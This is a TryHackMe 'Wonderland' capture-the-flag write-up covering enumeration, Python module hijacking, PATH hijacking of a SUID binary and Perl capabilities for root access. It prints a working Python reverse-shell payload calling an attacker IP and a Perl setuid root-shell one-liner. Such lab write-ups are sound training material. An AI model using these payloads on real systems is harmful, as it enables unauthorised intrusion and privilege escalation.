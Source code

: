 ```yaml
---
title: Wonderland
date: 2022-07-23 12:00:00 -0500
author: L15t3Nr
categories: [TryHackMe, WriteUp]
tag: [TryHackMe, WriteUp, Wonderland]
img_path: /assets/img/Wonderland/
---
```


Wonderland can be found [here](https://tryhackme.com/room/wonderland)

# Enumeration
## Nmap
The results of nmap
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Manual Inspection 
The home page contains only an image

![Home](Home.png)

## Fuzzing for Directories
Using Wfuzz, I enumerate directories
```
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-directories.txt --follow --hc 404 http://10.10.241.146/FUZZ/
```

One of the first results comes back as the '/r/' directory.

![r](r.png)

I had a feeling this was going to spell out the word 'rabbit', so I checked. 

![rabbitPage](rabbitPage.png)

There is a page here and checking the source reveals something interesting. 

There are credentials hidden in the page source. 

![sourceCredentials](sourceCredentials.png)

# Lateral Movement
### Alice

The credentials i found grant SSH access as the user 'alice'.

![SSHAlice](SSHAlice.png)

Digging into the users permissions reveals the ability to execute a python script as the user 'rabbit'

`sudo -l`
![sudo-l](sudo-l.png)


### Rabbit
The python script uses the 'random' module and this can exploited by abusing the way python looks up library modules. The first location python checks is the current directory. The random module is located at `/usr/lib/python3.6/random.py`. By placing a malicious file name 'random.py' in the current directory, python will find and use my module before it reaches the `	/usr/lib/python3.6/random.py` location. 

The payload I will use: 
```
import socket,os,pty  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("10.2.7.45",4242))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2)  
pty.spawn("/bin/sh")
```

and this will be stored in a file called 'random.py' in the directory containing the 'walrus_and_the_carpenter.py' script. 

Setting up a netcat listener on 4242 and then executing the script as the user rabbit will provide a reverse shell as the next user. 

`sudo -u rabbit python3.6 ~/walrus_and_the_carpenter.py`

![randomPY](randomPY.png)

![rabbitShell](rabbitShell.png)

### Hatter

The rabbit user contains a binary called 'teaParty' and their is a SUID set on the binary.

![SUID](SUID2.png)

I downloaded a strings static binary onto the target and inspected the strings in the binary.

![teaParty](teaParty.png)

This revealed that the binary uses the 'date' command without an absolute path. This way I can hijack the command with my own by added a malicious 'date' binary to the tmp directory and including the tmp directory in the path. 

![stringsResults](stringsResults.png)

the malicious date binary will contain a reverse shell payload and then be made executable

![newDate](newDate.png)

The tmp directory is also added to the path

![PATH](PATH.png)

A netcat listener is started on port 2345 and then the binary is executed for a reverse shell as the user Hatter

![TeaPartyExec](TeaPartyExec.png)

![HatterShell](HatterShell.png)

# Privilege Escalation
### Root
User hatter contains a password file in the home directory that I will use to login via SSH

![HatterPassword](HatterPassword.png)

![HatterSSH](HatterSSH.png)

I ran through the [Privilege Escalation Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) and found that the hatter user has capabilities set on Perl. 

![GetCap](GetCap.png)

There is a privilege escalation path found on [GTFO bins](https://gtfobins.github.io/gtfobins/perl/)

The payload: 
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

![root](rootWonderland.png)
